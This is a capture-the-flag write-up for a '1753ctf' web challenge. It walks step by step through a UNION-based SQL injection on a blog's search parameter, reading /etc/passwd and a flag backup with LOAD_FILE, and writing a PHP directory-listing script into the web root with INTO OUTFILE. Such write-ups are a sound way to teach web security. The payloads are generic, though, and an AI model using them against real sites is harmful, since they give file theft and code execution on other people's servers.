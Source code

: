 We are given a website with no source code. It appears to be a blog with login functionality.

![website](image.png)

There are a few things we can get from this:

- SQL Injection is possible using some kind of search functionality
- The flag is probably somewhere within `/var/www/html/backups/`
- We can probably execute php code in some creative way given that they are telling us what functions are blacklisted.

After clicking around on the page, I found search functionality at `https://flag-vault-5a37f69100fc.1753ctf.com/?search=vault`

Placing a single quote here confirms the site is vulnerable to SQL Injection:

![sql_vulnerable](image-1.png)

After going through the normal motions, I can see that there are three columns:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT null, null, null;-- -
```

We see an error about a string not being a date string, so I can quickly fix that:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT "01-01-2020", "01-01-2020", "aaaa";-- -
```

I can see that the `aaaa` from the above is rendered on the page:

![inputonpage](image-2.png)

I now tried to use the `LOAD_FILE` function to see the content of a file on the system:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT "01-01-2020", "01-01-2020", LOAD_FILE("/etc/passwd");-- -
```

This was successful:

![arbitrary_read](image-3.png)

So now we have arbitrary read. We just need to find the filename of the flag. I tried to guess some common spots `/flag`, `.flag.txt`, etc, but came up short. Remembering the hint that there is a backup in `/var/www/html/backups`, I decided to look for a method to list directories.

Trying to embed PHP in a "dumb" way does not work, however I discovered that we have write permissions to the current folder:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT "01-01-2020", "01-01-2020", 'echo hello' into outfile '/var/www/html/meow.php';-- -
```

Going to this file on the remote server, I see the output

![arbitary write](image-4.png)

Googling around, I see this piece of code all over the internet indicatig how we can list all files given a restircted list of functions:

```
<?php $t = new RecursiveDirectoryIterator("/var/www/html");foreach(new RecursiveIteratorIterator($t) as $file =>$key) { echo $file."<br/>"; } ?>
```

So I can now run:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT "01-01-2020", "01-01-2020", '<?php $t = new RecursiveDirectoryIterator("/var/www/html");foreach(new RecursiveIteratorIterator($t) as $file =>$key) { echo $file."<br/>"; } ?>' into outfile '/var/www/html/meow2.php';-- -
```

Going there, I see that this has worked quite well:

![Alt text](image-6.png)

and that I can see the supposed flag location `/var/www/html/backups/flags_1677599396982.bak`

I'm unable to go to `https://flag-vault-5a37f69100fc.1753ctf.com/backups/flags_1677599396982.bak` to view the flag due to permissions issues, however using my arbitrary read from earlier:

```
https://flag-vault-5a37f69100fc.1753ctf.com/?search=aa' UNION SELECT "01-01-2020", "01-01-2020", LOAD_FILE("/var/www/html/backups/flags_1677599396982.bak);-- -
```

yeilds the flag:

![flag](image-7.png)

Flag: `1753c{you_c4n_filter_but_you_c4nt_hide}`
